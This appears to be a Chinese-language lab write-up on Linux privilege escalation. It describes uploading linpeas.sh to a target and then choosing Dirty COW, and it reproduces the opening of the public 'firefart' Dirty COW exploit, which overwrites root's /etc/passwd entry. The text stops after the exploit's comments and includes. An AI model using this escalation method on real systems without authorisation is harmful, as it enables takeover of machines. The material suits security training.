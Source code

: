 这里我们开启一个服务器，上传`linpeas.sh`这个脚本到目标机器上，这个脚本功能非常强大，是专门针对Linux提权的一个脚本工具。它是由Carlos P创建的，目的是列举在Linux系统上提升特权的所有可能方法。
![在这里插入图片描述](https://img-blog.csdnimg.cn/d6d15cb2cccf4a7fa46092fd5a3db58e.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/06085062db3d40459a5ecef0a53d7a13.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
赋予执行权限并运行这个脚本，这里有两种提权的方法，一种是脏牛提权，这个简单快捷；另一种利用`tmux`这个应用程序来实施提权。

### 脏牛提权

这里我们发现这个Linux版本较低，那么我们可以使用脏牛进行提权
![在这里插入图片描述](https://img-blog.csdnimg.cn/d06348beabfc4b279891a1cfc60a32a1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
在`exploit-db`上可以发现利用的脚本
![在这里插入图片描述](https://img-blog.csdnimg.cn/4e45a7c7bc434452b0dbe78a15ff87c1.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
这是整个脚本的内容

```c
//
// This exploit uses the pokemon exploit of the dirtycow vulnerability
// as a base and automatically generates a new passwd line.
// The user will be prompted for the new password when the binary is run.
// The original /etc/passwd file is then backed up to /tmp/passwd.bak
// and overwrites the root account with the generated line.
// After running the exploit you should be able to login with the newly
// created user.
//
// To use this exploit modify the user values according to your needs.
//   The default is "firefart".
//
// Original exploit (dirtycow's ptrace_pokedata "pokemon" method):
//   https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c
//
// Compile with:
//   gcc -pthread dirty.c -o dirty -lcrypt
//
// Then run the newly create binary by either doing:
//   "./dirty" or "./dirty my-new-password"
//
// Afterwards, you can either "su firefart" or "ssh firefart@..."
//
// DON'T FORGET TO RESTORE YOUR /etc/passwd AFTER RUNNING THE EXPLOIT!
//   mv /tmp/passwd.bak /etc/passwd
//
// Exploit adopted by Christian "FireFart" Mehlmauer
// https://firefart.at
//

#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";
```